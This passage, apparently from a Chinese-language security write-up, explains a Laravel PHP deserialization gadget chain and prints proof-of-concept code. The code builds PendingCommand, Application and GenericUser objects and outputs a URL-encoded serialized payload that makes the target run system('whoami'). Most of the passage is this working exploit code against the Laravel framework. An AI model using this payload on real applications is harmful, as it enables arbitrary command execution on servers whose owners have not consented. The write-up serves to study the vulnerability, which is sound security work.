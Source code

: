 ```php
        $this->test=$test;
        $this->app=$app;
        $this->command=$command;
        $this->parameters=$parameters;
    }
}

$demo= new PendingCommand($test,$app,"system",array("whoami"));
echo urlencode(serialize($demo));
?>
```

![image-20210530204314832](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/05/2021-05-30-image-20210530204314832.png)

如果选择标注2的方法，我们需要对`bindings[$abstract]['concrete']`进行控制，而`$abstract`的值就是`Illuminate\Contracts\Console\Kernel`,所以我们能够利用二维数组控制`['concrete']`：
```php
<?php

namespace Illuminate\Auth;
class GenericUser
{
    protected $attributes;
    public function __construct(array $attributes)
    {
        $this->attributes = $attributes;
    }
}
$array=array('expectedOutput' => array("0"=>"1"), 'expectedQuestions' => array("0"=>"1"));
$test=new GenericUser($array);

namespace Illuminate\Foundation;
class Application
{
    protected $bindings=[];
    public function __construct(){
        $this->bindings['Illuminate\Contracts\Console\Kernel']=array("concrete"=>"Illuminate\Container\Container");
    }
}
$app=new Application();

namespace Illuminate\Foundation\Testing;
class PendingCommand{
    public $test;
    protected $app;
    protected $command;
    protected $parameters;
    public  function __construct($test,$app,$command,$parameters){
        $this->test=$test;
        $this->app=$app;
        $this->command=$command;
        $this->parameters=$parameters;
    }
}

$demo= new PendingCommand($test,$app,"system",array("whoami"));
echo urlencode(serialize($demo));

?>

```
